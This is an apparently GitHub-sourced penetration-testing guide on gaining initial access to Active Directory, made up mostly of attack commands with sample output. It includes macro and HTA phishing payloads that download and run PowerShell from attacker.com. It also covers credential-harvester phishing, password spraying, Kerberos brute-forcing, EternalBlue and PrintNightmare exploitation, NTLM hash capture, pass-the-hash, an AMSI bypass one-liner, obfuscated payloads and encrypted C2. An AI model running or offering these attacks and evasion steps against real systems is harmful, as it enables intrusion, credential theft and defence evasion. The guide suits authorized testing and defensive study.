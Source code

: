 # Gaining Initial Access in Active Directory Penetration Testing

## Overview
Gaining initial access involves exploiting vulnerabilities, misconfigurations, or social engineering to obtain a foothold in the AD environment, typically through credentials, service exploits, or network attacks.

## Detailed Methods and Techniques
- **Phishing for Credentials**:
  - **Technique**: Send targeted phishing emails to capture AD credentials, leveraging OSINT data (e.g., employee names from LinkedIn).
    - **Execution**: Use `SET` to create a fake AD login page.
      ```bash
      setoolkit
      # Select: 1) Social-Engineering Attacks
      # Select: 2) Website Attack Vectors
      # Select: 3) Credential Harvester Attack
      # Clone: https://owa.example.com
      ```
      **Example Output**:
      ```
      [+] Credential captured:
      Username: jdoe@example.com
      Password: P@ssw0rd123
      ```
    - **Purpose**: Obtain valid AD credentials for authentication.
  - **Technique**: Spear-phishing with malicious attachments (e.g., macro-enabled Office documents).
    - **Execution**: Create a VBA macro to execute a PowerShell payload.
      ```vba
      Sub AutoOpen()
          Shell "powershell -ep bypass -c IEX((New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1'))"
      End Sub
      ```
      **Example Output**: Establishes a Meterpreter session.
      ```
      [*] Meterpreter session 1 opened
      ```
    - **Purpose**: Gain a shell on the victim’s system.
  - **Technique**: HTML Application (HTA) phishing for direct code execution.
    - **Execution**: Host an HTA file that executes a PowerShell payload.
      ```html
      <script language="VBScript">
      Set WShell = CreateObject("WScript.Shell")
      WShell.Run "powershell -ep bypass -c IEX((New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1'))"
      </script>
      ```
      **Example Output**: Executes payload and opens a reverse shell.
    - **Purpose**: Bypass traditional email filters for direct execution.
- **Password Spraying**:
  - **Technique**: Attempt common passwords against multiple accounts to avoid lockouts.
    - **Execution**: Use `CrackMapExec` for password spraying.
      ```bash
      crackmapexec smb 192.168.1.0/24 -u users.txt -p Password123
      ```
      **Example Output**:
      ```
      SMB 192.168.1.10 445 DC01 [+] example.com\jsmith:Password123
      SMB 192.168.1.20 445 SRV01 [+] example.com\jdoe:Password123
      ```
    - **Purpose**: Identify accounts with weak passwords.
  - **Technique**: Brute-forcing via Kerberos pre-authentication.
    - **Execution**: Use `Kerbrute`.
      ```bash
      kerbrute bruteuser -d example.com --dc 192.168.1.10 jdoe passwords.txt
      ```
      **Example Output**:
      ```
      [+] VALID LOGIN: jdoe@EXAMPLE.COM:Password123
      ```
    - **Purpose**: Gain access to accounts with weak passwords.
- **Exploiting Service Vulnerabilities**:
  - **Technique**: Exploit known vulnerabilities in AD-related services (e.g., SMBv1 with EternalBlue, MS17-010).
    - **Execution**: Use Metasploit for EternalBlue.
      ```bash
      msfconsole
      use exploit/windows/smb/ms17_010_eternalblue
      set RHOSTS 192.168.1.10
      set PAYLOAD windows/x64/meterpreter/reverse_tcp
      set LHOST 192.168.1.100
      exploit
      ```
      **Example Output**:
      ```
      [*] Meterpreter session 1 opened
      ```
    - **Purpose**: Gain a shell on a vulnerable AD server.
  - **Technique**: Exploit PrintNightmare (CVE-2021-34527) to gain SYSTEM access.
    - **Execution**: Use a public exploit like `PrintNightmare.py`.
      ```bash
      python3 PrintNightmare.py example.com/user:password@192.168.1.10
      ```
      **Example Output**:
      ```
      [+] Exploit successful, SYSTEM shell obtained
      ```
    - **Purpose**: Escalate to SYSTEM on a print server.
- **LLMNR/NBT-NS Poisoning**:
  - **Technique**: Spoof LLMNR/NBT-NS responses to capture NTLM hashes.
    - **Execution**: Use `Responder`.
      ```bash
      responder -I eth0
      ```
      **Example Output**:
      ```
      [+] [LLMNR] Poisoned answer sent to 192.168.1.20 for name SRV01
      NTLMv2 hash: jdoe::example:1122334455667788:abcdef1234567890
      ```
    - **Purpose**: Capture NTLM hashes for cracking or pass-the-hash.

## Exploitation Methods
- **Credential Harvesting**:
  - **Technique**: Use captured credentials to authenticate to AD services (e.g., SMB, RDP).
  - **Execution**: Test credentials with `CrackMapExec`.
    ```bash
    crackmapexec smb 192.168.1.10 -u jdoe -p P@ssw0rd123
    ```
    **Example Output**:
    ```
    SMB 192.168.1.10 445 DC01 [+] example.com\jdoe:P@ssw0rd123 (Pwn3d!)
    ```
    - **Purpose**: Access AD resources as a legitimate user.
- **Pass-the-Hash**:
  - **Technique**: Use stolen NTLM hashes to authenticate without the password.
  - **Execution**: Use `psexec.py` from Impacket.
    ```bash
    psexec.py example.com/jdoe@192.168.1.10 -hashes :aad3b435b51404eeaad3b435b51404ee
    ```
    **Example Output**:
    ```
    [*] Connected to 192.168.1.10 as jdoe
    ```
    - **Purpose**: Gain access to systems without cracking the hash.
- **Exploit Delivery**:
  - **Technique**: Deliver payloads via exploited services (e.g., EternalBlue).
  - **Execution**: Use Metasploit payload from the EternalBlue exploit (as shown above).
    - **Purpose**: Establish a persistent shell for further attacks.

## AV/AMSI Evasion Techniques
- **Obfuscated Payloads**:
  - **Technique**: Obfuscate PowerShell payloads in phishing attachments to bypass AMSI.
  - **Execution**: Use `Invoke-Obfuscation`.
    ```powershell
    Invoke-Obfuscation -ScriptBlock {IEX((New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1'))} -Technique Encode
    ```
    **Example Output**:
    ```
    $encoded = "JAB...=="
    Invoke-Expression ([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($encoded)))
    ```
    - **Purpose**: Prevent AMSI from detecting malicious scripts.
- **In-Memory Execution**:
  - **Technique**: Execute payloads in memory to avoid disk-based AV detection.
  - **Execution**: Use Metasploit’s in-memory payload.
    ```bash
    msfconsole
    use payload/windows/x64/meterpreter/reverse_tcp
    generate -f exe -o payload.exe
    ```
    - **Purpose**: Avoid AV detection by not writing to disk.
- **AMSI Bypass**:
  - **Technique**: Disable AMSI via memory patching.
  - **Execution**: Use a bypass script.
    ```powershell
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiContext','NonPublic,Static').SetValue($null, [IntPtr]::Zero)
    ```
    - **Purpose**: Prevent PowerShell scripts from being scanned by AMSI.
- **Encrypted C2 Channels**:
  - **Technique**: Use encrypted C2 channels (e.g., HTTPS) for payload delivery.
  - **Execution**: Configure Metasploit with HTTPS.
    ```bash
    msfconsole
    use exploit/windows/smb/ms17_010_eternalblue
    set LHOST 192.168.1.100
    set PAYLOAD windows/x64/meterpreter/reverse_https
    ```
    - **Purpose**: Evade network-based AV/EDR monitoring.

## Tools
- **SET**: Social engineering for phishing (`setoolkit`).
- **CrackMapExec**: Password spraying and credential testing (`crackmapexec smb`).
- **Kerbrute**: Kerberos brute-forcing (`kerbrute bruteuser`).
- **Metasploit**: Exploit framework (`msfconsole`).
- **Impacket**: Pass-the-hash and other attacks (`psexec.py`).
- **Responder**: LLMNR/NBT-NS poisoning.

## Best Practices
- Ensure phishing and exploit tests are authorized and comply with legal guidelines.
- Use minimal attempts during password spraying to avoid account lockouts.
- Document all successful access methods for reporting.
- Use obfuscation and encryption to evade AV/AMSI.